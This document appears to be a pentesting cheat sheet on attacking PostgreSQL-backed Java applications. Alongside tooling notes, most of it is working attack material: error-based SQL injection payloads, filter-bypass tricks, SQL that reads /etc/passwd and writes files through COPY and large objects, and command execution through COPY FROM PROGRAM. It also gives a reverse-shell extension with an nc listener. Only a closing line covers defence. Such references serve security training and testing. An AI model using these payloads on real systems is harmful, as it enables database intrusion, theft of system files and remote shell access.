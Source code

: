 ## Interacting with PostgreSQL

`psql -h <host> -U <username> <database>`

## Decompiling Java Archives

#### Fernflower

Code: bash

```bash
mkdir <OutputDirectory>
java -jar Fernflower.jar <Application>.jar <OutputDirectory>
cd <OutputDirectory>
jar -xf <Application>.jar
```

#### JD-GUI

`jd-gui <Application>.jar`

## Regex Patterns for Finding SQLi Vulnerabilities

Code: regex

```regex
SELECT|UPDATE|DELETE|INSERT|CREATE|ALTER|DROP
(WHERE|VALUES).*?'
(WHERE|VALUES).*" +
.*sql.*"
jdbcTemplate
```

## Live Debugging Java Applications

`java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y,suspend=y -jar <Application>.jar`

## Enabling PostgreSQL Logging

`/etc/postgresql/13/main/postgresql.conf`

- Change `#logging_collector = off` to `logging_collector = on`
- `#log_statement = 'none'` to `log_statement = 'all'`
- Uncomment `#log_directory = '...'`
- Uncomment `#log_filename = '...'`

## Common Character Bypasses

- Use `/**/` instead of `space`
- Use `$$string$$` instead of `'string'`

## Error-Based SQL Injection

Code: sql

```sql
' and 0=CAST((SELECT VERSION()) AS INT)--
' and 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 1) as INT)--
' and 1=CAST((SELECT STRING_AGG(table_name,',') FROM information_schema.tables LIMIT 1) as INT)--
';SELECT CAST(CAST(QUERY_TO_XML('SELECT ...',TRUE,TRUE,'') AS TEXT) AS INT)--
```

## Reading and Writing Files

#### Reading with COPY

Code: sql

```sql
CREATE TABLE tmp (t TEXT);
COPY tmp FROM '/etc/passwd';
COPY tmp FROM '/etc/hosts' DELIMITER E'\x07';
SELECT * FROM tmp;
DROP TABLE tmp;
```

#### Reading with Large Objects

Code: sql

```sql
SELECT lo_import('/etc/passwd');
SELECT lo_get(16513);
SELECT data FROM pg_largeobject WHERE loid=16513 AND pageno=0;
echo 726f6f743<SNIP> | xxd -r -p
```

#### Writing with COPY

Code: sql

```sql
CREATE TABLE tmp (t TEXT);
INSERT INTO tmp VALUES ('To hack, or not to hack, that is the question');
COPY tmp TO '/tmp/proof.txt';
DROP TABLE tmp;
```

#### Writing with Large Objects

Code: sql

```sql
split -b 2048 /etc/passwd
xxd -ps -c 99999999999 xaa
SELECT lo_create(31337);
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (31337, 0, DECODE('726f6f74<SNIP>6269','HEX'));
SELECT lo_export(31337, '/tmp/passwd');
SELECT lo_unlink(31337);
```

## Command Execution

#### RCE with COPY

Code: sql

```sql
CREATE TABLE tmp(t TEXT);
COPY tmp FROM PROGRAM 'id';
SELECT * FROM tmp;
DROP TABLE tmp;
```

#### RCE with Extensions

Code: bash

```bash
sudo apt install postgresql-server-dev-13
gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_rev_shell.so pg_rev_shell.c
nc -nvlp 443
```

Code: sql

```sql
CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;
SELECT rev_shell('127.0.0.1', 443);
```

## Defending Against SQL Injection

Use `parameterized queries`!